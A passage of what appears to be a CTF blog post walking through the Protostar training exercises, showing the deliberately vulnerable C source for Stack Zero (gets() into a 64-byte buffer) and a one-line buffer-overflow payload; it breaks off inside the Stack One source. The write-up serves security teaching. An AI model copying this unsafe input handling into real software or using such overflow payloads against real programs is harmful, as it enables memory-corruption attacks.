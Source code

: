```yaml
---
layout: post
title:  "Exploit Excersises Protostar Stack"
date:   2020-1-10 0:05:00 +0000
categories: Exploit-Excersises
---
```

In this series ill be covering the protostar excersises from exploit-excersises / exploit.education. Its a series of challenges designed to teach common linux exploits that will occur in CTF challenges.
Protostar introduces a range of things in a way that takes it from introductory to more advanced:
- Network programming
- Byte order
- Handling sockets
- Stack overflows
- Format strings
- Heap overflows


# Stack Zero
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
{% endhighlight %}

Vulnerability 
We can see the code above is copying user supplied input into a buffer of 64 bytes (line 11), then if the stack variable 'modified' is not 0, it will print the win statement. Supplying an input larger than the available buffer should overflow and overwrite the modified variable.
Exploit:
{% highlight bash %}
python -c 'print "A"*65' | ./stack0
{% endhighlight %}
# Stack One
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
